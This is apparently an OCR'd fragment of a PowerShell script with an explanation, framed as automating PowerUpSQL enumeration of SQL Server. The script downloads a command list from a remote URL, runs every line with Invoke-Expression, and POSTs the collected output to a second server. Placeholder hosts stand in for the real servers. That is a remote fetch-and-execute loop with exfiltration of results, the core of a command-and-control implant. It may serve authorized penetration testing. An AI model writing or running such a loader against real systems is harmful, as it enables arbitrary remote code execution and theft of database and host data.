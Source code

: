 ```powershell
        $commands = $webclient.DownloadString($url)
        return $commands -split "`n"
    } catch {
        Write-Host "Error: Could not download the command file from $url"
        exit 1
    }
}

# PowerUpSQL Enumeration Function
function Run-PowerUpSQL {
    param (
        [string]$commandsUrl,
        [string]$outputUrl
    )

    # Download commands from the specified URL
    $commands = Get-CommandsFromURL -url $commandsUrl

    # Collect data
    $results = ""

    foreach ($command in $commands) {
        # Skip empty lines
        if ($command.Trim() -eq "") { continue }

        Write-Host "Executing: $command"
        $output = Invoke-Expression $command | Out-String
        $measures = "Review output and take appropriate measures."
        $results += Format-Output $command $output $measures
    }

    # Output format
    Send-PostRequest -url $outputUrl -data $results -filename "results.md"
}

# Main script
param (
    [string]$url = "http://default-output-url.com",
    [string]$commandsUrl = "http://default-commands-url.com/commands.txt"
)

# Running the enumeration
Run-PowerUpSQL -commandsUrl $commandsUrl -outputUrl $url
```

### Explanation:
1. **`Get-CommandsFromURL`**: This function fetches the PowerUpSQL commands from the server via a GET request using the `-c` (commands) flag. The commands are assumed to be in a text file hosted on the web server, with one command per line.
2. **`Run-PowerUpSQL`**: The downloaded commands are then looped through and executed one by one using `Invoke-Expression`. Each command's output is formatted into Markdown.
3. **POST Request**: After executing the commands, the results are posted back to the server specified by the `--url` flag.
